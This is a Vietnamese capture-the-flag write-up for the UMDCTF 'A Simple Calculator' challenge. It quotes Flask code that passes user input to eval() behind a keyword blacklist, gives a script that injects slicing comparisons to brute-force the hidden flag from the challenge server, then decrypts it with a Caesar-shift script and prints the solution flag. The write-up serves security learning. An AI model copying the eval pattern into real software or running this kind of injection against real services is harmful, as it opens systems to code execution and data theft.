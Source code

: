 # UMDCTF - A Simple Calculator

*source code*: https://drive.google.com/file/d/1H-VvvdStKw6ReLB2BXHYw9Zu4YLb6qIy/view?usp=sharing

## Review source code
```python
# .....
from secrets import flag_enc, ws
#....

def z(f: str):
    for w in ws:
        if w in f:
            raise Exception("nope")
    return True
# .....

@app.route('/calc', methods=['POST'])
def calc():
    val = 0
    try:
        z(request.json['f'])
        val = f"{int(eval(request.json['f']))}"
# .....
```
File `secrets.py` có chứa `flag_enc` và `ws` được import vào `app.py`. `ws` có chứa các blacklist keyword đã được dấu khi trước khi public source-code. Server nhận f parameter đi qua hàm z, nếu trùng với blacklist thì sẽ trả về lỗi còn nếu không thì được đi vào `eval()`. 

Fuzz qua thì biết được hàm `ord()` và một số kí tự khác như `\` bị block nên không thể bypass hàm `z` hay đọc result dạng từng số ascii nên ta sẽ brute-foce `flag_enc` bằng cách cắt ra từng kí tự rồi so sánh từng cái thôi. 

**Python scripts**: Brute-force encrypted flag
```python
import requests
import string

url = 'https://calculator-w78ar.ondigitalocean.app/'
characters = string.ascii_letters + string.digits + string.punctuation
# val = f"{int(eval(request.json['f']))}"

flag = ''
for i in range(len(flag), 100):
    for c in characters:
        json = {
            "f": f"flag_enc[{i}:{i+1}] == '{c}'"
        }

        r = requests.post(url+'calc', json=json)

        result = r.json()['result']
        print(flag+c)

        if result == '1':
            flag += c
            print('[FOUND] : ' + flag)

            if c == '}':
                exit('done!')
            break
```

**encrypted flag**: `OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}`

Flag nhận được đã bị encrypt bằng hàm `encrypt()` trong file `secrets.py`. 

**Python scripts**: Decrypt encrypted flag
```python
FLAG = 'OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}'

def encrypt(text: str, key: int):
    result = ''

    for c in text:
        if c.isupper():
            c_index = ord(c) - ord('A')
            c_shifted = (c_index + key) % 26 + ord('A')
            result += chr(c_shifted)
        elif c.islower():
            c_index = ord(c) - ord('a')
            c_shifted = (c_index + key) % 26 + ord('a')
            result += chr(c_shifted)
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c

    return result

def reverse(c, er):
    a = ord(c) - ord(er)
    if a >= 20:
        result = a - key + ord(er)
    else:
        result = a + 26 - key + ord(er)
    return chr(result)

def decrypt(text: str, key: int):
    result = ''

    for c in text:
        if c.isupper():
            result += reverse(c, 'A')
        elif c.islower():
            result += reverse(c, 'a')
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c

    return result

def find_key():
    for i in range(100):
        if encrypt('UMDCTF', i) == 'OGXWNZ':
            return i

key = find_key()
print(f'[KEY FOUND] : ' + str(key))

flag_dec = decrypt(FLAG, key)
flag_enc = encrypt(flag_dec, key)

print(flag_dec)
print(flag_enc)
```

**flag**: `UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}`
